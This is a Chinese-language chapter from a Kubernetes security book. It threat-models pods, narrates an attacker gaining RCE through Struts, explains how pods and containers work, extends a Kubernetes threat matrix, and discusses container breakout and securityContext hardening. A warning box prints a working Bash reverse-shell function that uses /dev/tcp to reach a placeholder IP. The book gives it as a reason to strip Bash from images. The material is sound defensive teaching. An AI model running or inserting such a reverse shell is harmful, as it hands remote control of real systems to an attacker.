





# 第二章：Pod 级资源

本章涉及 Kubernetes 部署的原子单位：pod。Pod 运行应用程序，一个应用程序可能由一个或多个容器在一个或多个 pod 中协同工作。

我们将考虑 pod 内外可能发生的坏事，并探讨如何减少遭受攻击的风险。

与任何合理的安全工作一样，我们将首先为系统定义一个轻量级的威胁模型，识别它所防御的威胁行为者，并突出最危险的威胁。这为您制定对策和控制措施，采取防御步骤以保护客户的宝贵数据提供了坚实的基础。

我们将深入探讨 pod 的安全模型，并查看默认可信的内容，通过配置可以加强安全性，以及攻击者的行动轨迹。

# 默认值

Kubernetes 历来没有默认进行安全加固，有时这可能导致权限提升或容器突破。

如果我们放大单个 pod 与主机之间的关系，在图 2-1 中，我们可以看到 `kubelet` 为容器提供的服务以及可能限制对手的潜在安全边界。

默认情况下，许多配置都是按最小特权合理配置的，但用户提供的配置更常见（如 pod YAML、集群策略、容器镜像），存在更多意外或恶意配置的机会。大多数默认配置是明智的——在本章中，我们将展示它们的例外情况，并演示如何测试您的集群和工作负载是否安全配置。



###### 图 2-1\. Pod 架构

# 威胁模型

我们为每个威胁模型定义了一个范围。在这里，您正在对 pod 进行威胁建模。让我们首先考虑 Kubernetes 威胁的一个简单组。

[网络上的攻击者](https://oreil.ly/PoRXb)

敏感端点（如 API 服务器）如果公开，易受攻击。

[应用程序被妥协，导致容器立足点](https://oreil.ly/CYG04)

应用程序被妥协（远程代码执行、供应链被篡改）是攻击的开始。

[建立持久性](https://oreil.ly/zJGhK)

窃取凭据或获得对 pod、节点和/或容器重启具有韧性的持久性。

[恶意代码执行](https://oreil.ly/POnQ9)

运行利用来旋转或升级，并枚举端点。

[访问敏感数据](https://oreil.ly/agQ7E)

从 API 服务器、附加存储和可通过网络访问的数据存储中读取机密数据。

[拒绝服务](https://oreil.ly/nr7Cb)

对攻击者而言，这很少是一个好的时间利用。拒绝钱包服务和加密锁定是常见的变体。

###### 提示

“先前的艺术”中的威胁源有其他负面结果可以与此列表进行交叉参考。

# 攻击解剖


Hashjack 船长通过枚举 BCTL 的 DNS 子域和 S3 存储桶来开始对系统的攻击。这些可能为进入组织系统提供了一条简单的途径，但在这次事件中没有找到易于利用的东西。

不受阻挡，他们在公共网站上创建一个帐户并登录，使用像[zaproxy](https://www.zaproxy.org)（OWASP Zed Attack Proxy）这样的 Web 应用扫描器，来窥探 API 调用和应用程序代码，寻找意外响应。他们在寻找泄露 Web 服务器标头和版本信息（以了解哪些漏洞可能成功），通常会注入和模糊 API 以处理不良处理的用户输入。

这种严格程度，你糟糕维护的代码库和系统可能不会经受太久。攻击者可能在大海捞针，但只有最安全的干草堆里根本没有针。

###### 注意

任何计算机都应该抵抗这种不加区分的攻击类型：Kubernetes 系统应通过能够使用最新软件和硬化配置保护自己来实现“最小可行安全性”。Kubernetes 鼓励定期更新，支持最近的三个次要版本（例如 1.24、1.23 和 1.22），每 4 个月发布一次，确保一年的补丁支持。旧版本不受支持且可能存在漏洞。

尽管攻击的许多部分可以自动化，但这是一个复杂的过程。普通的攻击者更可能广泛扫描触发已发布 CVE 的软件路径，并运行自动化工具和脚本针对大范围的 IP 地址（例如公共云提供商广告的范围）。这些方法很吵。

## 远程代码执行

如果你的应用程序中存在漏洞可以用来运行不可信的（在这种情况下是外部的）代码，这被称为远程代码执行（RCE）。对手可以使用 RCE 生成一个远程控制会话到应用程序的环境中：这里是处理网络请求的容器，但如果 RCE 设法将不可信的输入传递到系统更深层，它可能利用不同的进程、Pod 或集群。

Kubernetes 和 Pod 安全的第一个目标应该是防止 RCE，这可能是像`kubectl exec`这样简单，或者像在图 2-2 中演示的反向 Shell 那样复杂。



###### 图 2-2\. Kubernetes Pod 中的反向 Shell

应用程序代码经常变动，可能隐藏未发现的错误，因此强大的应用程序安全（AppSec）实践（包括工具的 IDE 和 CI/CD 集成以及专门的安全需求作为任务验收标准）对阻止攻击者入侵运行在 Pod 中的进程至关重要。

###### 注意

Java 框架 Struts 是曾经部署最广泛的库之一，存在一个远程可利用的漏洞（CVE-2017-5638），这导致了 Equifax 客户数据泄漏事件。为了解决容器中此类供应链漏洞，可以通过 CI 快速重新构建带补丁的库并重新部署，从而减少暴露于互联网的易受攻击的库的风险窗口。我们将在全书中探讨其他获取远程代码执行的方法。

有了这些，让我们继续讨论网络方面的内容。

## 网络攻击面

Kubernetes 集群最大的攻击面是其网络接口和面向公众的 pod。面向网络的服务如 Web 服务器是保持集群安全的第一道防线，这是我们将在第五章中深入探讨的主题。

这是因为从网络各处进入的未知用户可以扫描面向网络的应用程序，寻找远程代码执行的可利用迹象。他们可以使用自动化的网络扫描工具来尝试利用已知的漏洞和网络代码中的输入处理错误。如果一个进程或系统被迫以意外的方式运行，那么通过这些未经测试的逻辑路径，它可能会被攻击者利用。

要了解攻击者如何仅仅通过强大的但又谦逊的 Bash shell 在远程系统中建立立足点，例如，可以参考《[Cybersecurity Ops with bash](https://oreil.ly/ZmILo)》一书的第十六章，作者为 Paul Troncone 和 Carl Albing（O’Reilly）。

为了防御此类攻击，我们必须扫描容器，寻找操作系统和应用程序的 CVE 漏洞，并希望在它们被利用之前对其进行更新。

如果 Hashjack 船长成功远程代码执行到一个 pod 内部，这将成为深入攻击您系统的一个立足点，通过 pod 的网络位置和权限设置。您应该努力限制攻击者在这个位置能做的事情，并根据工作负载的敏感性定制您的安全配置。如果您的控制太松散，这可能是雇主 BCTL 公司范围内遭遇全面违规的开端。

###### 提示

例如使用 Metasploit 在 Struts 中生成一个 shell，请参阅[Sam Bowne 的指南](https://oreil.ly/nzsxP)。

正如 Dread Pirate Hashjack 刚刚发现的，我们还一直在运行一个有漏洞的 Struts 库版本。这给攻击者从内部开始攻击集群提供了机会。

###### 警告

类似这样一个简单的 Bash 反向 shell 是移除容器中 Bash 的一个很好的理由。它利用了 Bash 的虚拟 */dev/tcp/* 文件系统，而在不包含这个常被滥用功能的`sh`中则无法利用：

```
revshell() {
    local TARGET_IP="${1:-123.123.123.123}";
    local TARGET_PORT="${2:-1234}";
    while :; do
        nohup bash -i &> \
          /dev/tcp/${TARGET_IP}/${TARGET_PORT} 0>&1;
        sleep 1;
    done
}
```

攻击开始时，让我们看看海盗们登陆的位置：在一个 Kubernetes pod 内部。

# Kubernetes 工作负载：Pod 内的应用程序

多个协作容器可以被逻辑地分组到一个 pod 中，Kubernetes 运行的每个容器必须运行在一个 pod 内。有时一个 pod 被称为一个“工作负载”，这是同一个执行环境的多个副本之一。每个 pod 必须在你的 Kubernetes 集群中的一个节点上运行，如图 2-3 所示。

一个 pod 是你的应用的单个实例，为了按需扩展，使用多个相同的 pod 来复制应用程序，通过工作负载资源（如 Deployment、DaemonSet 或 StatefulSet）。

你的 pod 可能包括支持监控、网络和安全的 sidecar 容器，以及用于 pod 引导的“init”容器，使你能够部署不同的应用程序风格。这些 sidecar 很可能具有提升的权限，并且对攻击者来说是感兴趣的对象之一。

“Init” 容器按顺序运行（从头到尾）以设置一个 pod，并可以对命名空间进行安全更改，例如 Istio 的 init 容器配置 pod 的 *iptables*（在内核的 netfilter 中），以便运行时（非 init 容器）的 pod 通过 sidecar 容器路由流量。Sidecar 与 pod 中的主要容器并行运行，一个 pod 中的所有非 init 容器同时启动。


###### 图 2-3\. 集群部署示例；来源：[Kubernetes 文档](https://oreil.ly/Co9Hx)

云原生应用通常是微服务、Web 服务器、工作者和批处理进程。一些 pod 运行一次性任务（封装在作业中，或者可能是一个单独的不重启的容器），也许运行多个其他 pod 以进行辅助。所有这些 pod 都为攻击者提供了机会。Pod 被入侵了。或者更常见的是，一个面向网络的容器进程被入侵。

一个 pod 是一个信任边界，包括其内部的所有容器，包括它们的身份和访问权限。在 pod 之间仍然存在分离，你可以通过策略配置增强它，但在威胁建模时应考虑 pod 的所有内容。

###### Tip

Kubernetes 是一个分布式系统，操作的顺序（例如应用多文档 YAML 文件）是最终一致的，这意味着 API 调用并不总是按照你期望的顺序完成。顺序依赖于各种因素，不应该依赖于它们。Tabitha Sable 对 Kubernetes 有一个机械同情的定义。


# 什么是 Pod？

一个 pod 如图 2-4 所示，是 Kubernetes 的一项发明。它是多个容器运行的环境。Pod 是你可以要求 Kubernetes 运行的最小可部署单元，并且其中的所有容器将在同一节点上启动。一个 pod 拥有自己的 IP 地址，可以挂载存储，其命名空间包围由容器运行时（如 `containerd` 或 CRI-O）创建的容器。



###### 图 2-4\. 示例 pods（来源：[Kubernetes 文档](https://oreil.ly/YwBSv)）

容器是一个迷你 Linux，其进程通过控制组（`cgroups`）进行容器化，以限制资源使用，并通过命名空间限制访问。正如我们将在本章中看到的，还可以应用各种其他控制来限制容器化进程的行为。

Pod 的生命周期由 `kubelet` 控制，它是 Kubernetes API 服务器的副手，部署在集群中的每个节点上来管理和运行容器。如果 `kubelet` 与 API 服务器失去联系，它将继续管理其工作负载，并在必要时重新启动它们。如果 `kubelet` 崩溃，容器管理器也会保持容器的运行状态，以防它们崩溃。`kubelet` 和容器管理器负责监视您的工作负载。

`kubelet` 在工作节点上运行 Pod，指导容器运行时并配置网络和存储。Pod 中的每个容器都是 Linux 命名空间、`cgroups`、权限和 Linux 安全模块（LSM）的集合。当容器运行时构建容器时，每个命名空间都会被单独创建和配置，然后再组合成一个容器。

###### 提示

权限（Capabilities）是针对“特殊”根用户操作的单个开关，例如更改任何文件的权限、将模块加载到内核中、以原始模式访问设备（例如网络和 I/O）、BPF 和性能监视，以及其他每一项操作。

根用户拥有所有权限，并且可以授予任何进程或用户（“环境权限”）。在本章后面我们将看到，过多的权限授予可能会导致容器的突破。

在 Kubernetes 中，容器运行时会将新创建的容器添加到 Pod 中，其中它会在 Pod 容器之间共享网络和进程通信命名空间。

图 2-5 显示了一个 `kubelet` 在单个节点上运行四个独立的 Pod。

容器是对抗敌人的第一道防线，应在运行之前扫描容器镜像以检测 CVE（公共漏洞和暴露）。这一简单步骤可以降低运行过时或恶意容器的风险，并帮助您基于风险做出部署决策：您是否将其部署到生产环境中，或者是否需要先修补可利用的 CVE？


###### 图 2-5\. 节点上的示例 Pod（来源：[Kubernetes 文档](https://oreil.ly/ksFim)）

###### 提示

公共注册表中的“官方”容器镜像更有可能是最新的并且已经修补完毕，Docker Hub 使用 Notary 对所有官方镜像进行签名，正如我们将在 第四章 中看到的。

公共容器注册表通常托管恶意镜像，因此在生产之前检测它们至关重要。图 2-6 展示了这种可能发生的情况。

`kubelet`将 pod 连接到容器网络接口（CNI）。 CNI 网络流量被视为第 4 层 TCP/IP（尽管 CNI 插件使用的底层网络技术可能不同），加密由 CNI 插件、应用程序、服务网格或至少节点之间的底层网络处理。如果流量未加密，可能会被受损 pod 或节点嗅探。



###### 图 2-6\. 污染公共容器注册表

###### 警告

虽然在正确配置的容器运行时下启动恶意容器通常是安全的，但已经有攻击针对容器引导阶段。我们将在本章稍后讨论*/proc/self/exe*突破 CVE-2019-5736。

Pods 还可以通过 Kubernetes 附加存储，使用[容器存储接口（CSI）](https://oreil.ly/S8v3B)，其中包括 Figure 2-7 中显示的 PersistentVolumeClaim 和 StorageClass。在第六章中，我们将更深入地探讨存储方面的内容。

在图 2-7 中，您可以看到控制平面和 API 服务器在集群中的中心角色。 API 服务器负责与集群数据存储（`etcd`）交互，托管集群的可扩展 API 表面，并管理`kubelet`。如果 API 服务器或`etcd`实例被攻击者控制，攻击者将完全控制集群：这些是系统中最敏感的部分。


###### 图 2-7\. 集群示例 2（来源：[Tsuyoshi Ushio](https://oreil.ly/szUug)）

###### 警告

许多存储驱动程序存在漏洞，包括 CVE-2018-11235，它在`gitrepo`存储卷上暴露了对 Git 的攻击，以及 CVE-2017-1002101，一个子路径卷挂载处理错误。我们将在第六章中详细介绍这些内容。

对于较大的集群性能，控制平面应在独立的基础设施上运行，以与`etcd`分离，后者需要高磁盘和网络 I/O 以支持其分布式共识算法[Raft](https://oreil.ly/V5lbf)的合理响应时间。

由于 API 服务器是`etcd`集群的唯一客户端，攻击者成功攻击其中一个将有效地获取对集群的控制权：由于异步调度，在 Kubernetes 中，将恶意的未安排的 pod 注入`etcd`将触发它们被调度到`kubelet`。

与所有快速移动的软件一样，Kubernetes 栈的大部分组件都存在漏洞。运行现代软件的唯一解决方案是具备健康的持续集成基础设施，能够在漏洞公告后及时重新部署受影响的集群。

# 理解容器

好了，我们已经对集群有了高层次的视图。但是在低层次上，“容器”是什么？它是 Linux 的微观世界，为进程提供了一个专用内核、网络和用户空间的幻觉。软件技巧使容器内的进程误以为自己是在主机上唯一运行的进程。这对于将现有工作负载隔离和迁移到 Kubernetes 中是有用的。

###### 注意

正如[Christian Brauner](https://oreil.ly/lBByx)和[Stéphane Graber](https://oreil.ly/DsmkD)喜欢[说的](https://oreil.ly/sTkqN)，“（Linux）容器是用户空间的虚构”，是一组配置，为容器内的进程提供隔离的幻象。容器源自原始的内核汤，是演变的产物，而不是智能设计，经过改进和形成，现在变得可以使用起来了。

容器并不以单一的 API、库或内核特性存在。它们仅仅是内核启动一组命名空间、配置一些`cgroups`和能力、添加像 AppArmor 和 SELinux 这样的 Linux 安全模块，并在容器内启动我们珍贵的小进程后所剩下的捆绑和隔离结果。

容器是一个进程，处于特殊环境中，并具有一些命名空间的组合，这些命名空间可能已启用或与主机（或其他容器）共享。该进程来自容器镜像，这是一个包含容器根文件系统、其应用程序及任何依赖项的 TAR 文件。当镜像被解压到主机上的目录中，并创建一个特殊的文件系统“pivot root”时，就围绕它构建了一个“容器”，并且其`ENTRYPOINT`从容器内的文件系统中运行。这大致是容器启动的过程，Pod 中的每个容器都必须经历此过程。

容器安全有两个部分：容器镜像的内容及其运行时配置和安全上下文。从容器启用和安全使用的安全原语数量中可以推导出容器的抽象风险评级，避免主机命名空间，使用`cgroups`限制资源使用，放弃不必要的能力，根据进程使用模式加强安全模块配置，以及最小化进程和文件系统的所有权和内容。[Kubesec.io](https://kubesec.io) 根据运行时如何有效启用这些特性来评估 Pod 配置的安全性。

当内核检测到网络命名空间为空时，它将销毁该命名空间，移除其中网络适配器分配的任何 IP 地址。对于只有一个单独容器持有网络命名空间 IP 分配的 Pod，崩溃并重新启动的容器将会创建一个新的网络命名空间，并分配新的 IP 地址。这种 IP 地址的快速变化会为运维人员和安全监控带来不必要的噪音。Kubernetes 使用所谓的暂停容器（参见 “Pod 内部网络”），在发生崩溃循环的租户容器时保持 Pod 的共享网络命名空间开放。从工作节点内部看，每个 Pod 中的伴随暂停容器如下所示：

```
andy@k8s-node-x:~ [0]$ docker ps --format '{{.Image}} {{.Names}}' |
  grep "sublimino-"
busybox k8s_alpine_sublimino-frontend-5cc74f44b8-4z86v_default-0
k8s.gcr.io/pause:3.3 k8s_POD_sublimino-frontend-5cc74f44b8-4z86v-1
...
busybox k8s_alpine_sublimino-microservice-755d97b46b-xqrw9_default_0
k8s.gcr.io/pause:3.3 k8s_POD_sublimino-microservice-755d97b46b-xqrw9_default_1
...
busybox k8s_alpine_sublimino-frontend-5cc74f44b8-hnxz5_default_0
k8s.gcr.io/pause:3.3 k8s_POD_sublimino-frontend-5cc74f44b8-hnxz5_default_1
```

此暂停容器在 Kubernetes API 中是不可见的，但在工作节点的容器运行时中是可见的。

###### 注意

CRI-O 通过固定命名空间（除非绝对必要）来省去暂停容器的步骤，如 KubeCon 演讲 [“CRI-O: Look Ma, No Pause”](https://oreil.ly/EqEwr) 所述。

## 共享网络和存储

一个 Pod 中的一组容器共享网络命名空间，因此 Pod 中的每个容器都可以在同一个网络适配器上访问所有其他容器的端口。这使得 Pod 中的一个容器中的攻击者有机会攻击任何网络接口上可用的私有套接字，包括回环适配器 `127.0.0.1`。

###### 提示

我们将在第 5 和第六章节详细讨论这些概念。

每个容器使用其容器镜像中的根文件系统，这些根文件系统之间不共享。卷必须挂载到 Pod 配置中的每个容器中，但如果配置为这样，Pod 的卷可能对所有容器都可用，正如您在 图 2-4 中所见。

图 2-8 显示容器工作负载内部的一些路径，攻击者可能会感兴趣（请注意 `user` 和 `time` 命名空间目前未使用）。


###### 图 2-8\. 将容器包装在 Pod 中的命名空间（灵感来源于 [Ian Lewis](https://oreil.ly/nH9y8)）

###### 注意

用户命名空间是最终的内核安全前沿，由于历史上可能是内核攻击的入口点，通常不启用：Linux 中的所有内容都是文件，用户命名空间的实现横跨整个内核，使其比其他命名空间更难以保护。

这里列出的特殊虚拟文件系统都是容器内配置错误时的潜在突破口：*/dev* 可能会访问主机设备，*/proc* 可泄露进程信息，而 */sys* 支持启动新容器的功能。

## 最糟糕的可能性是什么？

作为安全首席信息官（CISO），您负责组织的安全。作为 CISO 的角色意味着您应考虑最坏的情况，确保您已经采取适当的防御和缓解措施。攻击树有助于对这些负面结果进行建模，您可以使用的数据源之一是威胁矩阵，如图 2-9 所示。



###### 图 2-9\. 微软 Kubernetes 威胁矩阵；来源：[“Secure Containerized Environments with Updated Threat Matrix for Kubernetes”](https://oreil.ly/JzdmV)

但是还有一些遗漏的威胁，并且社区已经添加了一些（感谢 Alcide 和 [Brad Geesaman](https://oreil.ly/Ll2de) 以及 [Ian Coldwater](https://oreil.ly/NmidV)），如表 2-1 所示。

表 2-1\. 我们增强的微软 Kubernetes 威胁矩阵

| 初始访问（弹出 shell pt 1 - 准备） | 执行（弹出 shell pt 2 - 执行） | 持久性（保持 shell） | 特权升级（容器突破） | 防御规避（假设没有入侵检测系统） | 凭证访问（重要的凭证） | 发现（枚举可能的枢纽） | 横向移动（枢纽） | 命令与控制（C2 方法） | 影响（危险性） |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 使用云凭据：服务帐户密钥，冒充 | 执行到容器（绕过准入控制策略） | 容器后门（向本地或容器注册表图像添加反向 shell） | 特权容器（合法提升到主机） | 清除容器日志（主机突破后覆盖轨迹） | 列出 K8s 机密 | 列出 K8s API 服务器（nmap，curl） | 访问云资源（工作负载身份和云集成） | 动态解析（DNS 隧道） | 数据销毁（数据存储，文件，NAS，勒索软件…） |
| 受损镜像在注册表中（供应链未修复或恶意） | 容器内的 BASH/CMD（植入物或特洛伊木马，RCE/反向 shell，恶意软件，C2，DNS 隧道） | 可写主机路径挂载（主机挂载突破） | 集群管理员角色绑定（未经测试的 RBAC） | 删除 K8s 事件（主机突破后覆盖轨迹） | 挂载服务主体（特定于 Azure） | 访问 `kubelet` API | 容器服务帐户（API 服务器） | 应用程序协议（L7 协议，TLS，…） | 资源劫持（加密货币挖矿，恶意软件 C2/分发，开放中继，僵尸网络成员资格） |
| 应用程序漏洞（供应链未修复或恶意） | 启动新容器（带有恶意有效载荷：持久性，枚举，观察，升级） | K8s CronJob（定时反向 shell） | 访问云资源（通过工作负载身份元数据攻击） | 从代理服务器连接（覆盖源 IP，外部到集群） | 应用程序配置文件中的应用程序凭据（密钥材料） | 访问 K8s 仪表板（UI 需要服务帐户凭据） | 集群内部网络（攻击相邻的 pod 或系统） | 僵尸网络（k3d 或传统的） | 应用程序拒绝服务 |
| kubeconfig 文件（泄露或上传到错误位置） | 应用程序漏洞利用（RCE） | 静态 Pod（反向 shell，影子 API 服务器以读取仅审计日志标头） | Pod `hostPath` 挂载（日志到容器越界） | Pod/容器名称相似性（视觉回避，CronJob 攻击） | 访问容器服务帐户（RBAC 横向跳跃） | 网络映射（nmap，curl） | 访问容器服务帐户（RBAC 横向跳跃） |  | 节点调度 DoS |
| 受损的用户端点（2FA 和联合身份验证缓解） | 容器内的 SSH 服务器（不良实践） | 注入的 sidecar 容器（恶意变异 Webhook） | 节点到集群升级（窃取凭据，节点标签重新绑定攻击） | 动态解析（DNS）（DNS 隧道/泄露） | 受损的准入控制器 | 实例元数据 API（工作负载身份） | 主机可写卷挂载 |  | 服务发现 DoS |
| K8s API 服务器漏洞（需要 CVE 和未打补丁的 API 服务器） | 容器生命周期钩子（在 Pod YAML 中的 `postStart` 和 `preStop` 事件） | 重写容器生命周期钩子（在 Pod YAML 中的 `postStart` 和 `preStop` 事件） | 控制平面到云升级（Secrets 中的密钥，云或控制平面凭据） | 影子准入控制或 API 服务器 |  | 威胁 K8s Operator（敏感 RBAC） | 访问 K8s 仪表板 |  | PII 或 IP 泄露（集群或云数据存储，本地帐户） |
| 受损的主机（凭据泄露/塞满，未打补丁的服务，供应链威胁） |  | 重写存活探针（在容器中执行和反向 shell） | 威胁准入控制器（重新配置并绕过以允许带有标记的阻止镜像） |  |  | 访问主机文件系统（主机挂载） | 访问 tiller 端点（Helm v3 无视此问题） |  | 容器拉取速率限制 DoS（容器注册表） |
| 受损的 `etcd`（缺少身份验证） |  | 影子准入控制或 API 服务器（特权 RBAC，反向 shell） | 威胁 K8s Operator（威胁 flux 并读取任何 Secrets） |  |  |  | 访问 K8s Operator |  | SOC/SIEM DoS（事件/审计/日志速率限制） |
|  |  | K3d 僵尸网络（在受损节点上运行的次要集群） | 容器越界（内核或运行时漏洞，例如 DirtyCOW，`/proc/self/exe`，eBPF 验证程序漏洞，Netfilter） |  |  |  |  |  |  |

随着我们逐步深入本书，我们将详细探讨这些威胁。

## 容器越界

集群管理员最担心的是容器越界，即容器内的用户或进程可以在容器执行环境之外运行代码。

###### 注意

严格来说，容器突破应该利用内核，攻击容器应该受到约束的代码。在作者看来，任何避开隔离机制的行为都违反了容器的维护者或操作者认为与容器内进程之间的协议，这意味着它应被视为对主机系统及其数据安全同样构成威胁，因此我们定义容器突破来包括任何逃避隔离的行为。

容器突破可能以各种方式发生：

+   包括对内核、网络或存储堆栈或容器运行时的*利用*

+   诸如攻击暴露的本地、云或网络服务，或提升权限并滥用已发现或继承的凭据的*转轴*

+   通过*错误配置*，允许攻击者更轻松或合法地利用或转轴（这是最有可能的方式）

如果运行进程由非特权用户拥有（即没有 root 权限的用户），则许多突破是不可能的。在这种情况下，进程或用户必须在尝试突破之前在容器内部通过本地特权升级获取权限。

一旦实现了这一点，突破可能从运行在配置不当容器中的敌对 root 拥有的进程开始。在容器内获得对 root 用户能力的访问是大多数逃逸的先决条件：没有 root 权限（有时没有`CAP_SYS_ADMIN`），许多突破是无效的。

###### 提示

`securityContext`和 LSM 配置对于限制来自零日漏洞或供应链攻击（加载到容器中并在运行时自动利用的库代码）的意外活动至关重要。

在你的工作负载安全上下文中，可以定义活动用户、组和文件系统组（设置在已挂载卷上以提高可读性，由`fsGroupChangePolicy`控制），并通过准入控制（参见第八章）强制执行，正如文档中的[示例](https://oreil.ly/YJNS6)所示：

```
apiVersion: v1
kind: Pod
metadata:
  name: security-context-demo
spec:
  securityContext:
    runAsUser: 1000
    runAsGroup: 3000
    fsGroup: 2000
  containers:
  - name: sec-ctx-demo
# ...
    securityContext:
      allowPrivilegeEscalation: false
# ...
```

